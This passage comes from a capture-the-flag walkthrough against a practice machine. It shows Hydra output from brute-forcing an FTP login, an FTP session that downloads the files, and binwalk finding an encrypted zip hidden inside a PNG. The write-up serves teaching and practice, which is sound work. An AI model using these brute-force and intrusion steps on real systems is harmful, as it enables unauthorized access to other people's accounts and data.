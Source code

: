      ...[snip]...
     [21][ftp] host: 10.10.245.114   login: chris   password: [*******]
     1 of 1 target successfully completed, 1 valid password found
     Hydra (http://www.thc.org/thc-hydra) finished at 2021-07-25 20:01:09

     ...[snip]...
     ```

### 3.2 Zip file password

- download all files from `ftp`

     ```bash
     ftp 10.10.245.114 
     Connected to 10.10.245.114.
     220 (vsFTPd 3.0.3)
     Name (10.10.245.114:root): chris
     331 Please specify the password.
     Password:
     230 Login successful.
     Remote system type is UNIX.
     Using binary mode to transfer files.
     ftp> dir
     200 PORT command successful. Consider using PASV.
     150 Here comes the directory listing.
     -rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
     -rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
     -rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png

     ftp> mget -r *
     ```

- read the `To_agentJ.txt` file.

     ```cat
     cat To_agentJ.txt
     Dear agent J,

     All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

     From,
     Agent C
     ```

- It says that the login password is in the fake pic's. This clearly indicates to use of Steganography. using steghide we see that we need a passphrase to extract info from `cute-alien.jpg` , this password must be hidden in `cutie.png` . we use binwalk for this.

     ```bash
     binwalk -e cutie.png 

     DECIMAL       HEXADECIMAL     DESCRIPTION
     --------------------------------------------------------------------------------
     0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
     869           0x365           Zlib compressed data, best compression
     34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
     34820         0x8804          End of Zip archive
     ```
